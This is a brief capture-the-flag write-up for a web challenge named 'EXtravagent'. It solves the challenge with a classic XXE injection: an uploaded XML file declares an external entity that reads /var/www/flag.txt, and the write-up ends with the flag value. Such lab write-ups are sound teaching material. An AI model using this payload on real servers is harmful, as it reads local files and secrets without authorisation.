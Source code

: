 ```yaml
---
grand_parent: Categories
parent: Web
title: EXtravagent
nav_order: 3
---
```


# EXtravagent

```
I've been working on a XML parsing service. It's not finished but there should be enough for you to try out.

The flag is in /var/www
```

## Challenge

> TL;DR: Classic Non-blind XXE Injection

Visiting the challenge site, we are greeted with a file upload and an XML file viewer. So we try the basic XXE payload that lets us see the `/var/www/flag.txt` file (since this was what the description hinted):

**poc.xml**:
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```

Uploading it:

<img src="images/extravagent-1.png">

Viewing it:

<img src="images/extravagent-2.png">

Getting the flag:

<img src="images/extravagent-3.png">

Flag: `flag{639b72f2dd0017f454c44c3863c4e195}`
